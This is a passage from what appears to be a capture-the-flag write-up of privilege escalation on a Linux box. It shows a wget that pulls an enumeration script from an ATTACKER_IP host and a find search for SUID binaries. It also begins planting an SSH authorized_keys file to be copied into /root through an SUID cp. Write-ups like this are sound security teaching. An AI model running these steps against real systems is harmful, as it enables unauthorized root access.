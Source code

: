 Now that I had shell access, I downloaded the **lse** script to enumerate potential privesc vectors.
- https://github.com/diego-treitos/linux-smart-enumeration

On Attacker system, I downloaded the script from **github** and then:

```shell
python3 -m http.server 8888
```

I then downloaded it on the target system:

```shell
wget http://ATTACKER_IP:8888/lse.sh
```

Finally, I ran the script:

![](https://cdn.ziomsec.com/happycorp/16.webp)

The script discovered an SUID bit in the **cp** command.

![](https://cdn.ziomsec.com/happycorp/17.webp)

I also verified this manually.

```shell
find / -user root -perm -u=s -ls 2>/dev/null
```

![](https://cdn.ziomsec.com/happycorp/18.webp)

So, I was allowed to copy a file with root privileges. Now, I could move onto privilege escalation.

### Exploitation - SSH Auth Keys

To escalate my privilege, I added my public key to the *authorized_keys* file and copied this file to the */root* directory. This way, I was able to **ssh** as root without a password.

To create a key-pair, I executed the following on my local system:

```shell
ssh-keygen -t rsa -b 4096 -C "NAME"
```

![](https://cdn.ziomsec.com/happycorp/19.webp)

I copied my public key and pasted it into the victim machine.

![](https://cdn.ziomsec.com/happycorp/20.webp)

```shell
cd tmp
mkdir .ssh
cd .ssh
echo KEY > authorized_keys
```

![](https://cdn.ziomsec.com/happycorp/21.webp)
